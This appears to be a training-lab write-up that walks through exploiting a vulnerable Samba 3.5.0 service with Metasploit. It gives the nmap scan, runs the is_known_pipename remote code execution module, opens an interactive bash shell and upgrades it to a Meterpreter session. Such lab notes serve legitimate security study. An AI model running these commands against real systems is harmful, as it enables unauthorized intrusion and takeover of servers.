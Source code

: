 # 🔬Samba - MSF Exploit

## Lab 1

>  🔬 [Vulnerable File Sharing Service](https://www.attackdefense.com/challengedetails?cid=178)
>
>  - Target IP: `192.234.251.3`
>  - Exploit the target with the appropriate Metasploit Framework module
>  - [Samba 3.5.0 - Remote Code Execution](https://www.exploit-db.com/exploits/42060)

```bash
ip -br -c a
service postgresql start && msfconsole -q
```

```bash
db_status
setg RHOSTS 192.234.251.3
setg RHOST 192.234.251.3
workspace -a samba3.5.0
```

- Perform an `nmap` scan directly into MSF

```bash
db_nmap -sS -sV -O 192.234.251.3
```

![db_nmap -sS -sV -O 192.234.251.3](assets/image-20230416132052860.png)

```bash
search type:exploit name:samba
use exploit/linux/samba/is_known_pipename
info
# Description:
#   This module triggers an arbitrary shared library load vulnerability 
#   in Samba versions 3.5.0 to 4.4.14, 4.5.10, and 4.6.4. This module 
#   requires valid credentials, a writeable folder in an accessible 
#   share, and knowledge of the server-side path of the writeable 
#   folder. In some cases, anonymous access combined with common 
#   filesystem locations can be used to automatically exploit this 
#   vulnerability.
options
check
run
```

```bash
/bin/bash -i
```

![Metasploit - exploit/linux/samba/is_known_pipename](assets/image-20230416132216493.png)

- Shell to `Meterpreter` post exploitation

```bash
background # or CTRL+Z
sessions
search shell_to_meterpreter
use post/multi/manage/shell_to_meterpreter
set SESSION 1
set LHOST eth1
run

sessions
sessions 2
```

![shell_to_meterpreter](assets/image-20230416132513575.png)

------


